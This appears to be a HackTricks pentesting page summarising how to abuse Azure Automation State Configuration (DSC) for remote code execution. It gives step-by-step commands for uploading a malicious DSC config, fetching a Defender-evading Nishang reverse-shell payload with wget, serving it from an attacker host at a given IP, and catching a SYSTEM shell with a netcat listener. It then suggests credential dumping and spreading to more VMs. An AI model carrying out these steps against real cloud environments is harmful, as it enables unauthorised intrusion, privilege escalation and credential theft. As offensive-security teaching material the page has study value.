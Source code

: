 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

The process involves setting up a remote server infrastructure to host a modified Nishang `Invoke-PowerShellTcp.ps1` payload, named `RevPS.ps1`, designed to bypass Windows Defender. The payload is served from a Kali Linux machine with IP `40.84.7.74` using a simple Python HTTP server. The operation is executed through several steps:

#### Step 1 — Create Files

- **Files Required:** Two PowerShell scripts are needed:
  1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
  2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

#### Step 2 — Zip Configuration File

- The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

#### Step 3 — Set Storage Context & Upload

- The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

#### Step 4 — Prep Kali Box

- The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

- The script is edited to specify the target Windows VM and port for the reverse shell.

#### Step 5 — Publish Configuration File

- The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.

#### Step 6 — Host Payload and Setup Listener

- A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

- The scheduled task executes the payload, achieving SYSTEM-level privileges.

#### Conclusion

The successful execution of this process opens numerous possibilities for further actions, such as credential dumping or expanding the attack to multiple VMs. The guide encourages continued learning and creativity in the realm of Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}



